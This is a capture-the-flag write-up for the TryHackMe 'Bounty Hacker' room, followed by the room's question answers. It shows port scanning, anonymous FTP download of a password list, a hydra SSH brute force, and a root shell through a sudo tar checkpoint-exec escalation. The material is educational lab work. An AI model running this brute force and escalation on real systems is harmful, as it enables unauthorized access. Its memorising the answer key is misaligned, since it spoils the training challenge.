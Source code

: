 # TryHackMe - Bounty Hacker

[Room link](https://tryhackme.com/room/cowboyhacker)

---

## Enumeration

Nmap :

```bash
$ sudo nmap -sS -oN <file> <target_ip>
[...]
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

---

### FTP 

The ftp service as anonymous is allowed. First, we need to turn off the passive mode. After that, we can download the files.

```bash
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*****************************************|   418        4.27 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (3.19 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*****************************************|    68        0.75 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.56 KiB/s)
```

This files are really interesting. 

task.txt is signed by "lin". Probably an user.

locks.txt contains some strings which looks like examples of passwords. 

---

## Exploitation

Let's try to bruteforce the ssh with hydra.

```bash
$ hydra -l lin -P locks.txt <target_ip> ssh
[...] 
[DATA] attacking ssh://10.10.198.158:22/
[22][ssh] host: 10.10.198.158   login: lin   password: **********
```

That works.

Let's connect us to the target throught ssh.

```bash
Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ 
```

We are in.

---

## Flag user

The user flag is here -> /home/lin/Desktop/user.txt

---

## Flag root

Check the commands available with this follow command :

```bash
$ sudo -l 
[...]
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Use this command to get a shell as root :

```bash
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
nt-action=exec=/bin/sh
tar: Removing leading `/' from member names
# 
# ls -l
total 4
-rw-r--r-- 1 root root 19 Jun  7  2020 root.txt
```

The root flag is here -> /root/root.txt

---

## Question Section

1. Deploy the machine.

**No aswer needed**

2. Find open ports on the machine

**No aswer needed**

3. Who wrote the task list? 

**lin**

4. What service can you bruteforce with the text file found?

**ssh**

5. What is the users password? 

**Run bruteforce of the ssh service with the user "lin" and password file locks.txt**

6. user.txt

**/home/lin/Desktop/user.txt**

7. root.txt 

**/root/root.txt**

